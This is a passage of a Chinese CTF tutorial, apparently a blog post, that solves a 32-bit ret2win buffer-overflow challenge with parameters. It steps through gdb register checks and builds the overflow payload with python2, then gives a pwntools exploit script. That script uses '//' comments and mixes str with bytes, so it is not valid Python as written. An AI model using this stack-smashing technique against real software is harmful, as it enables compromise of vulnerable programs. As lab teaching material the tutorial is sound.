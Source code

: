 0x42转换成ascii码是大写的B，对比失败后程序会跳转，破解失败

![在这里插入图片描述](https://img-blog.csdnimg.cn/cabfc12079714adf972df22c37dab803.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/562292f5827047f9966e345d9c094b9b.png)

我们修改一下之前的exp
```
python2 -c "print 'A'*28+'\x82\x91\x04\x08'+'AAAA'+'\xef\xbe\xad\xde'+'CCCC'+'DDDD'" > exp
```
然后再次执行程序
```
run < exp
```
查看一下这个寄存器里的值
```
x $ebp + 8
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cb6bb5f832ea432d8fbb08baa3c2cfa8.png)

可以看到，现在就和对比的值一样了，继续下一步，进行第二个对比

![在这里插入图片描述](https://img-blog.csdnimg.cn/e9cc3e7df22e4b5cad312ef8067b5d9c.png)

查看一下这个寄存器里的值
```
x $ebp + 0xc
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/68556ec9a4214845aef4918352c60468.png)

0x43转换成ascii码是大写的C，我们再改一下脚本
```
python2 -c "print 'A'*28+'\x82\x91\x04\x08'+'AAAA'+'\xef\xbe\xad\xde'+'\xbe\xba\xde\xc0'+'DDDD'" > exp
```


然后再次执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/9e368410bf90488f845e4597686eca4b.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/a4b3f1724ff944dcb548fa53dfd27828.png)

成功破解程序，直接运行程序然后导入文件也可以破解

![在这里插入图片描述](https://img-blog.csdnimg.cn/bc9d7221c4e94fd29fdf709777ea855c.png)

## pwntools脚本
```
from pwn import *   //导入pwntools模块

io = process('./ret2win_params')    //运行程序
io.sendline(b'A' * 28 + p32(0x08049182) + 'AAAA' +p32(0xdeadbeef) + p32(0xc0debabe))   //程序运行后发送指定的字符串，格式为32位
print(io.recvall())   //接收输出
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d2f5d51fc6e4afe8c415163ed311585.png)
